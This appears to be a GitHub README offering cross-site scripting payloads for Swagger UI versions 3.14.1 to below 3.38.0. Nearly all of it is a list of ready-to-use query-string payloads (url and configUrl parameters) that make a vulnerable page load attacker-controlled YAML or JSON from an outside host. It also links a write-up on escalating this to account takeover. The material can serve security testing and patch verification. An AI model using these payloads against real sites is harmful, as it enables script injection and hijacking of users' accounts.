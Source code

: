 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

test.json -> test.yaml
`?configUrl=https://xxx.xxx.xxx/test.json`
